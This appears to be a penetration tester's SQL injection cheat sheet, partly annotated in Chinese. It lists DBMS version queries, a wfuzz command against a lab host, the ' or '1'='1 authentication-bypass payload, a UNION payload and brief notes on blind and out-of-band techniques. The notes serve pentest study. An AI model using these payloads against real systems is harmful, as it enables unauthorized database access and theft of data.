 ### Determine DBMS
* [PortSwigger - Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database)
* [sqlinjection](http://www.sqlinjection.net/database-fingerprinting/)
### Retrieve Version
`' UNION SELECT @@version-- `
* MySQL: `SELECT @@version`
* Microsoft: `SELECT @@version`
* Oracle: 
    * `SELECT banner FROM v$version WHERE rownum=1`
    * `SELECT banner FROM v$version`
    * `SELECT version FROM v$instance`
* PostgreSQL: `SELECT version()`


### Fuzzing
#### tools
* [wfuzz](https://github.com/xmendez/wfuzz)
```
wfuzz -u http://logger.htb/room.php?cod=1FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt --hc 404 # hide code 404
```

# Bypass Authenticate
## Payloads
```
' or '1'='1
```

# Retrieving Data
## Attack types
### Union-Based SQLi
合併原本 Query 的資料和想撈的資料，再把原本的 Query 消失 (z.B. 設為不存在的 index -1)，噴出想撈的東西
* [PortSwigger - UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
### Error-Based SQLi
把要撈的資料放入會噴出來的 Error Log
### Blind SQLi
* [PortSwigger - Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)
- Boolean-Based
    輸出可以判斷 True or False ，比對要撈的資料的長度，一個字元一個字元比對
- Time-Based
    輸出不能判斷 T/F ，改用製造時間差來判斷

### Out-of-Band SQLi
將資料透過網路外傳
